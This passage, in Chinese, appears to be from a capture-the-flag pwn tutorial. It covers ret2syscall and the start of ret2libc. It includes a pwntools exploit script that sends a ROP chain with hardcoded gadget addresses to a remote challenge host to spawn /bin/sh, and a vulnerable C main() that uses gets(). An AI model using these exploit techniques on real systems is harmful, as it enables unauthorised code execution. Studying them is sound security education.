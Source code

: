 ```
execve("/bin/sh",NULL,NULL)
```

使用ROPgadget寻找gadgets

![](https://my-md-1253484710.file.myqcloud.com/20190407155958.png)

这样就能够控制到eax,ebx,ecx,edx寄存器。

![](https://my-md-1253484710.file.myqcloud.com/20190407160123.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407160710.png)

写payload:

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='i386',os = 'linux' )
# io = process(./ret2syscall)
io = remote("47.106.212.155",10004)

pop_eax_addr = 0x080bb196
pop_ebcdx_addr = 0x0806eb90
int_0x80_addr = 0x08049421
bin_sh_addr = 0x080BE408
payload = flat(
    ["A"*112,pop_eax_addr,0xb,pop_ebcdx_addr,0,0,bin_sh_addr,int_0x80_addr]
)
io.sendline(payload)
io.interactive()

```

###### ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

eg1:  [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

![](https://my-md-1253484710.file.myqcloud.com/20190407175007.png)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(&s);
  return 0;
}
```

